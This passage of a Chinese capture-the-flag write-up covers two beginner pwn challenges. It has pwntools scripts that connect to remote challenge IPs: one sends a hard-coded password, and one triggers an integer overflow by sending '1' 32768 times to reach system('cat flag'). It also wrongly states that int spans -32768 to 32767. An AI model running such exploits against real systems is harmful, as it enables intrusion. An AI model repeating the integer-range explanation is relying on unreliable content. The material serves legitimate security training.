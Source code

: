 可以在左下角输入了，输入wq（保存并退出）

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698606998-d9b0b935-7dd1-4995-aa5f-5c39af125177.png)

双击py文件进去编写脚本

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607428-a2e80770-e9b2-4613-b3be-ee8a1321f9e5.png)

这基本上算是模板了，具体每一句是干嘛的查看pwntools的使用

### 本题exp：
```plain
from pwn import *
context(log_level="debug",arch='amd64',os="linux")
#p =process("./door")
p=remote("39.106.57.152",30756)

p.recvuntil("password: ")
p.sendline(b'7038329')

p.interactive()
```

写好了python3执行

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607554-52bf34e3-5acc-4095-8a72-ed9c993cd73f.png)

拿到flag

## 题目3
依旧固定步骤

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607612-ab895381-d4c8-4a4e-8922-bf69a4f5615a.png)

Ida查看func函数逻辑

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607687-70e4a0c7-f258-4ed5-bff2-a087157f41da.png)

先让我们输入v2，v2不能小于0，然后每次循环v1都会自增，v1小于0时就能直接执行system("cat flag")拿到flag

但是v1初始是0还不断增加，怎么可能小于0呢？？？

注意看v1是int类型，int类型数的范围是<font style="color:rgb(143,149,158);">-32768~32767；(即-2^15~2^15-1)</font>

所以当v1增加到32768其实是等于-32768**（原理请学习整数溢出）**，这样就满足条件了

### 本题exp：
```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
#p = process("./INTbug")
p = remote("8.147.132.32",39721)


for _ in range (32768):
    p.sendline(b'1')
    

p.interactive()
```
